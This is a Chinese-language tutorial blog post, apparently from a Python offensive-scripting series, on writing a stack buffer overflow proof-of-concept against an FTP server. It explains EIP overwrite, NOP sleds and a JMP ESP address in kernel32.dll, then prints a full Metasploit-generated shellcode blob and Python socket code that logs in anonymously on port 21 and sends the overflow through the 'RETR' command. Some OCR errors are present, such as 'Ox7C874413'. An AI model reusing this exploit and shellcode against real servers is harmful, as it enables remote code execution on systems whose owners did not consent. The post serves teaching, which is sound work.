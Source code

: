 # 原创
：  【Python脚本进阶】2.5、编写自己的0day概念验证代码：栈的缓冲区溢出攻击、添加攻击关键元素、发送漏洞利用代码

# 【Python脚本进阶】2.5、编写自己的0day概念验证代码：栈的缓冲区溢出攻击、添加攻击关键元素、发送漏洞利用代码

**目录**

[一、概述](#%E4%B8%80%E3%80%81%E6%A6%82%E8%BF%B0)

[二、基于栈的缓冲区溢出攻击](#%E4%BA%8C%E3%80%81%E5%9F%BA%E4%BA%8E%E6%A0%88%E7%9A%84%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB)

[2.1、简介：](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[2.2、基本术语：](#2.2%E3%80%81%E5%9F%BA%E6%9C%AC%E6%9C%AF%E8%AF%AD%EF%BC%9A)

[三、添加攻击的关键元素](#%E4%B8%89%E3%80%81%E6%B7%BB%E5%8A%A0%E6%94%BB%E5%87%BB%E7%9A%84%E5%85%B3%E9%94%AE%E5%85%83%E7%B4%A0)

[ 3.1、实现：](#%C2%A03.1%E3%80%81%E5%AE%9E%E7%8E%B0%EF%BC%9A)

[四、发送漏洞利用代码](#%E5%9B%9B%E3%80%81%E5%8F%91%E9%80%81%E5%87%85%E6%B4%9E%E5%88%A9%E7%94%A8%E4%BB%A3%E7%A0%81)

[4.1、分析：](#%E5%88%86%E6%9E%90%EF%BC%9A)

[4.2、实现：](#%C2%A0%E5%AE%9E%E7%8E%B0%EF%BC%9A)

---


## 一、概述

> 
虽然在Metasploit框架的工具库中包含有超过800个各不相同的漏洞利用代码， 但你还是会碰到必须自己编写远程漏洞利用代码的那一刻。用Python简化这个过程，先搞明白基于栈的缓冲区溢
<hr/>
Morris蠕虫成功的原因在某种程度上其实就是利用了栈的缓冲区溢出。此类漏洞之所以能被成功利用， 是由千程序没能过滤或验证用户的输入。


---


---


## 二、基于栈的缓冲区溢出攻击

> 
<h3>2.1、简介：</h3>
在基于栈的缓冲区溢出中， 未经检查的用户数据会覆盖下一个会被执行的指令指针（EIP）的方式控制程序的执行流。这种漏洞利用代码会直接让EIP寄存器指向攻击者插入的sbellcode上的某个位置。一系列的机器码指令（也称sbellcode)会让漏洞利用代码在目标系统中添加额外的用户， 与攻击者建立一个网络连接， 或是下载一个独立的可执行文件。
<hr/>
Shellcode的大小几乎是没有限制的， 其大小仅仅取决于内存可用空间的大小。如今各种不同的利用不同类型凋洞的方法已经有很多， 而基于栈的缓冲区溢出是其中最<br/> 基本的。


> 
<h3>2.2、基本术语：</h3>
溢出： 用户的输入长度超出栈中对它最大长度的预期， 即分配的内存大小
<hr/>
返回地址：用于直接跳转到栈顶部的4B的地址。下面漏洞利用中， 将使用一个在kernel32.dl中某条JMP ESP指令的地址（指针的长度为4B)。<br/> Padding:在shellcode之前的一系列NOP（无操作）指令， 它使攻击者预估直接跳转到那里去<br/> 的地址时， 能放宽的精度要求。只要它跳转到NOP链的任意地方， 可直接滑到shellcode那里。<br/> shellcode: 一小段用汇编语言编写的机器码。在下面的例子中， 我们用Metasploit框架生成<br/> shellcode。


---


---


## 三、添加攻击的关键元素

> 
<h3> 3.1、实现：</h3>
开始编写漏洞利用代码中的关键元素。
首先， 我们在shellcode变量中写入用Metasploit框架生成的载荷的十六进制码。
然后， 在overflow变蜇中写入246个字母“ A"（十六进制值是\x41)。
接若让ret变量指向kernel32.dll中的一个含有把控制流直接跳转到栈顶部的指令的地址。我们的padding变量中是150个NOP指令。这就构成了NOP链。
最后，把所有这些变量组合在一起形成我们称之为crash的变量。

<pre><code>shellcode = ("\xbf\x5c\x2a\x11\xb3\xd9\xe5\xd9\x74\x24\xf4\x5d\x33\xc9"
"\xb1\x56\x83\xc5\x04\x31\x7d\x0f\x03\x7d\x53\xc8\xe4\x4f"
"\x83\x85\x07\xb0\x53\xf6\x8e\x55\x62\x24\xf4\x1e\xd6\xf8"
"\x7e\x72\xda\x73\xd2\x67\x69\xf1\xfb\x88\xda\xbc\xdd\xa7"
"\xdb\x70\xe2\x64\x1f\x12\x9e\x76\x73\xf4\x9f\xb8\x86\xf5"
"\xd8\xa5\x68\xa7\xb1\xa2\xda\x58\xb5\xf7\xe6\x59\x19\x7c"
"\x56\x22\x1c\x43\x22\x98\x1f\x94\x9a\x97\x68\x0c\x91\xf0"
"\x48\x2d\x76\xe3\xb5\x64\xf3\xd0\x4e\x77\xd5\x28\xae\x49"
"\x19\xe6\x91\x65\x94\xf6\xd6\x42\x46\x8d\x2c\xb1\xfb\x96"
"\xf6\xcb\x27\x12\xeb\x6c\xac\x84\xcf\x8d\x61\x52\x9b\x82"
"\xce\x10\xc3\x86\xd1\xf5\x7f\xb2\x5a\xf8\xaf\x32\x18\xdf"
"\x6b\x1e\xfb\x7e\x2d\xfa\xaa\x7f\x2d\xa2\x13\xda\x25\x41"
"\x40\x5c\x64\x0e\xa5\x53\x97\xce\xa1\xe4\xe4\xfc\x6e\x5f"
"\x63\x4d\xe7\x79\x74\xb2\xd2\x3e\xea\x4d\xdc\x3e\x22\x8a"
"\x88\x6e\x5c\x3b\xb0\xe4\x9c\xc4\x65\xaa\xcc\x6a\xd5\x0b"
"\xbd\xca\x85\xe3\xd7\xc4\xfa\x14\xd8\x0e\x8d\x12\x16\x6a"
"\xde\xf4\x5b\x8c\xf1\x58\xd5\x6a\x9b\x70\xb3\x25\x33\xb3"
"\xe0\xfd\xa4\xcc\xc2\x51\x7d\x5b\x5a\xbc\xb9\x64\x5b\xea"
"\xea\xc9\xf3\x7d\x78\x02\xc0\x9c\x7f\x0f\x60\xd6\xb8\xd8"
"\xfa\x86\x0b\x78\xfa\x82\xfb\x19\x69\x49\xfb\x54\x92\xc6"
"\xac\x31\x64\x1f\x38\xac\xdf\x89\x5e\x2d\xb9\xf2\xda\xea"
"\x7a\xfc\xe3\x7f\xc6\xda\xf3\xb9\xc7\x66\xa7\x15\x9e\x30"
"\x11\xd0\x48\xf3\xcb\x8a\x27\x5d\x9b\x4b\x04\x5e\xdd\x53"
"\x41\x28\x01\xe5\x3c\x6d\x3e\xca\xa8\x79\x47\x36\x49\x85"
"\x92\xf2\x79\xcc\xbe\x53\x12\x89\x2b\xe6\x7f\x2a\x86\x25"
"\x86\xa9\x22\xd6\x7d\xb1\x47\xd3\x3a\x75\xb4\xa9\x53\x10"
"\xba\x1e\x53\x31")
overflow = "\x41" * 246
ret = struct.pack ('&lt;L', Ox7C874413) #7C874413 JMP ESP kernel32.dll
padding = "\x90" * 150
crash = overflow + ret + padding + shellcode</code></pre>


---


---


## 四、发送漏洞利用代码

> 
<h3>4.1、分析：</h3>
使用Berkeley Socket APL 可以与目标主机上的TCP 21 端口创建一个连接。如果成功连接，匿名登录主机。最后会发送FTP命令'RETR", 后面接上crash 变量。因为受影响的程序无法正确检查用户输入， 就引发了基于栈的缓冲区溢出， 它会覆盖EIP寄存器， 使程序直接跳转到shellcode 那里， 并执行它


> 
<h3>4.2、实现：</h3>
<pre><code>s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((target, 21))
except:
    print('[-]Connection to ' + target + 'failed!')
    sys.exit(0)
print('[*] Sending ' + 'len(crash)' + '  '+ command + ' byte crash... ')
s.send("USER anonymous\r\n")
s.recv(1024)
s.send('PASS \r\n')
s.recv(1024)
s.send('RETR' + ' ' + crash + '\r\n')
time.sleep(4)</code></pre>

